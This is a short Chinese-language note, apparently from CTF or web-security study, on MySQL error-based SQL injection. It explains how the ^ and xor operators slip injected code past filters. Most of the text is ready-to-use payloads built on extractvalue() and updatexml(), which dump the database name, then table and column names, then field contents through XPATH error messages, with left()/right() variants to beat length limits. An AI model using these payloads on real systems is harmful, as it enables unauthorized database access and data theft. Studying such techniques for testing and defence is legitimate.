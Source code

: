 两者的区别在于 `^`运算符做**位异或运算** 如`1^2=3`

而 `xor`做**逻辑运算** `1 xor 0` 会输出1，其他情况输出其他所有数据 

xor的作用包括但不限于**绕过敏感词过滤、判断过滤内容和直接进行盲注利用**


于是payload可以写成

`a' ^ extractvalue(1,concat('~',(select(database()))))#`

同理`updatexml()`函数也可以，用法相同

##### ^运算符

**原理**

^ ：要求两边都是数字，所以`extractvalue()`一定会执行（它需要先求值才能参与异或运算

extractvalue(1,concat('~',(select(database()))))

- extractvalue(): 这是是 MySQL 的 XML 处理函数
- 第一个参数`1`: 1是一个伪 XML 文档
- 第二个参数`concat()`: 使用 concat() 构建一个无效的 XPath 表达式

当被注入后`extractvalue()`被执行

会生成一个无效的 XPath 表达式（如 ~database_name）

MySQL 会返回一个错误信息，错误信息中会包含数据库名：

    XPATH syntax error: '~database_name'

同理

[]中的name替换为实际name即可

表名：`a'^extractvalue(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('[database_name]'))))`

列名：`a'^extractvalue(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('[table_name]'))))`

字段：`a'^extractvalue(1,concat('~',(select(group_concat([column_name]))from([database_nam].[table_name]))))`

tips：针对长度过滤限制

利用`right()`函数，和`left()`函数

若一个不行就同时使用

`a'^extractvalue(1,concat('~',(select(right([column_name],30))from([database_nam].[table_name]))))`


获取左边：

`a'or(updatexml("~",concat("~",(select(group_concat(left([column_name],25)))from([database_nam].[table_name]))),"~"))`

获取右边：

`a'or(updatexml("~",concat("~",(select(group_concat(right([column_name],25)))from([database_nam].[table_name]))),"~"))`
